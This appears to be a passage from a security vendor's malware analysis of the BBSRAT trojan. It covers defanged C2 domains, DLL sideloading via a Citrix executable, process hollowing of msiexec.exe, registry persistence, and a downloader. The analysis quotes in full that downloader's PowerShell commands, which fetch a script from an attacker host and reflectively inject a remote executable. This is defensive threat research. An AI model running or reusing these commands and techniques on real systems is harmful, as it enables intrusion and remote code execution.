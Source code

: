 Figure 2 Decoy document that is opened after the malicious document has infected the system
In more recent months, we have identified several other potential Russian victims using AutoFocus. Analysis of the command and control (C2) infrastructure shows that the newly discovered samples of BBSRAT used the same C2 domains as previously published in the “Roaming Tiger” campaign, including transactiona[.]com and futuresgold[.]com. Interestingly, all of the previously published C2 domains have significant overlap amongst the hashes and IPs while C2s for BBSRAT contain no overlap at all. This may indicate that for the newer attack campaign using BBSRAT, the adversary may have deployed purpose-built variants and/or infrastructure for each of the intended targets.

Figure 3 Command and control infrastructure
BBSRAT Malware Analysis
Deployment Technique #1
BBSRAT is typically packaged within a portable executable file, although in a few of the observed instances, a raw DLL was discovered to contain BBSRAT. When the dropper first runs, it will generate a path in the %TEMP% directory. The generated filename is 10-16 uppercase alphabetic characters, and ends with a ‘.TMP’ file extension. The dropper will continue to write an embedded cab file in this location.

Figure 4 Header of CAB file dropped by BBSRAT
The malware will proceed to create one of the following directories depending on what version of Microsoft Windows is running on the target machine:

%ALLUSERSPROFILE%\SSONSVR
%ALLUSERSPROFILE%\Application Data\SSONSVR

Using the built-in expand.exe utility provided by Microsoft Windows, the dropper executes the following command, which will expand the CAB file and write the results to the provided directory:
expand.exe "%TEMP%\[temp_file]" Destination "[chosen_path]\SSONSVR"
This results in the following three files being written to the SSONSVR directory:

aclmain.sdb
pnipcn.dll
ssonsvr.exe

The 'ssonsvr.exe' file is a legitimate Citrix executable that will be used to sideload the malicious ‘pnipcn.dll’ file. The ‘aclmain.sdb’ file contains code that will eventually be loaded by the ‘pnipcn.dll’ file.
The malware finally executes ‘ssonsvr.exe’ via a call to ShellExecuteW.

Figure 5 Execution flow of dropper expanding CAB file
When ‘ssonsvr.exe’ is executed, and the pnipcn.dll file is loaded, it will begin by identifying the path to msiexec.exe, by expanding the following environment string:
%SystemRoot%\System32\msiexec.exe
It will then spawn a suspended instance of msiexec.exe in a new process. The malware proceeds to load code from the ‘aclmain.sdb’ file and performs process hollowing against this instance of msiexec.exe prior to resuming the process.

Figure 6 Sideloading execution flow
In order to ensure persistence, the following registry key is written on the victim’s machine:
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\ssonsvr.exe : [path_to_ssonsvr.exe]
Deployment Technique #2
In the most recently observed sample of BBSRAT found in AutoFocus, the Trojan was deployed via a downloader that used the Invoke-ReflectivePEInjection.ps1 script from the PowerSploit framework.
When the downloader executes, it will first decrypt the following two strings using a 5-byte XOR key of “\x01\x02\x03\x04\x05”:
"powershell -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://testzake[.]com/IR.ps1');Invoke-ReflectivePEInjection -PEUrl http://testzake[.]com/s.exe"
"C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://testzake[.]com/IR.ps1');Invoke-ReflectivePEInjection -PEUrl http://testzake[.]com/s.exe"
These strings are then sequentially executed via calls to WinExec. As we can see, the second command is specifically crafted to run on 64-bit versions of Microsoft Windows. The commands in question will download an executable file and run it within the context of the powershell process.
When the above commands are executed, the downloader will initially download the ‘IR.ps1’ powershell script from the specified URL:
